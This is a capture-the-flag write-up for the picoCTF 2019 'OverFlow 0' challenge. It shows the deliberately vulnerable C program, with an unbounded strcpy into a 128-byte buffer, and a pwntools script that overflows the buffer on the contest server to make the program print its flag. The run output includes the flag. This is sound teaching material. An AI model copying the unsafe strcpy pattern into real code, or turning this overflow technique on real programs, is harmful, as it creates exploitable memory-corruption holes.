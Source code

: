 # OverFlow 0
Binary Exploitation, 100 points

## Description:
> This should be easy. Overflow the correct buffer in this program and get a flag.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```


## Solution:


This challenge is similar to last year's [buffer overflow 0](/2018_picoCTF/buffer%20overflow%200.md). If we pass an argument longer than 128 bytes, we will overflow the local buffer in `vuln`. If the argument is long enough, we will cause a segmentation fault and trigger the `sigsegv_handler`, printing the flag.


```python
# First, generate a pwntools template using:
# pwn template --host 2019shell1.picoctf.com --user dvdalt --path /problems/overflow-0_3_e217dae547cccbfeb9dbae42623404b7/vuln

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x8048000)

import os

if shell is not None:
    shell.set_working_directory(os.path.dirname(remote_path))

io = start(argv = [cyclic(200)])
flag = io.recvline()
log.success(flag)
```

Output:
```console
root@kali:/media/sf_CTFs/pico/OverFlow_0# python exploit.py
[*] '/media/sf_CTFs/pico/OverFlow_0/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] dvdalt@2019shell1.picoctf.com:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Opening new channel: 'pwd': Done
[+] Receiving all data: Done (13B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/tmp/tmp.lSY6SM2udh'
[+] Opening new channel: 'ln -s /home/dvdalt/* .': Done
[+] Receiving all data: Done (0B)
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Working directory: '/problems/overflow-0_3_e217dae547cccbfeb9dbae42623404b7'
[+] Starting remote process '/problems/overflow-0_3_e217dae547cccbfeb9dbae42623404b7/vuln' on 2019shell1.picoctf.com: pid 1788162
[+] picoCTF{3asY_P3a5y40407786}
```